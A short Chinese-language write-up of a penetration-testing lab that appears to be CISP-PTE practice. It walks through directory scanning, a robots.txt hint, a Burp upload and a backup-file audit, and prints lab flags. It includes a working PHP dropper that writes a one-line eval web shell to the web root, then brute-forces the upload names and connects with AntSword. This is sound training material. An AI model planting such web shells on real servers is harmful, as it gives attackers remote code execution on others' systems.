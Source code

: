 ![image-20221224125603150](F:/Typora_pic/pte/image-20221224125603150.png)

**key6:qf8nswqe**

http://www.cisp.pte/

![image-20221224125717625](F:/Typora_pic/pte/image-20221224125717625.png)

用域名访问一下之后，继续丢进御剑里扫描一下目录

![image-20221224125804935](F:/Typora_pic/pte/image-20221224125804935.png)

又有一个robots.txt，访问一下

![image-20221224125801193](F:/Typora_pic/pte/image-20221224125801193.png)

访问一下这个页面

![image-20221224125851422](F:/Typora_pic/pte/image-20221224125851422.png)

额，用BP上传一下

![image-20221224130019266](F:/Typora_pic/pte/image-20221224130019266.png)

一句话上传成功之后给出一个目录，同时在上传的时候在注释里发现了备份文件

![image-20221224130157292](F:/Typora_pic/pte/image-20221224130157292.png)

下载之后审计一下

![image-20221224130229030](F:/Typora_pic/pte/image-20221224130229030.png)

可以看到文件上传之后在upload文件夹下被随机数一到一百的md5加密值拼接加密

那么如法炮制，写一个跨级目录写文件的一句话传上去

```php
<?php fputs(fopen('../ifconfig.php','w'),'<?php @eval($_POST[1]);?>');?>
```

抓一个访问的包，访问爆破，双卡交火两个爆破一起跑

![image-20221224131127169](F:/Typora_pic/pte/image-20221224131127169.png)

执行之后直接访问一下根目录看看有没有ifconfig文件

传个参试一下

![image-20221224131224855](F:/Typora_pic/pte/image-20221224131224855.png)

用蚁剑连一下

![image-20221224131322643](F:/Typora_pic/pte/image-20221224131322643.png)

key就在这个根文件夹下

**hi key7 n8nwmpqd**
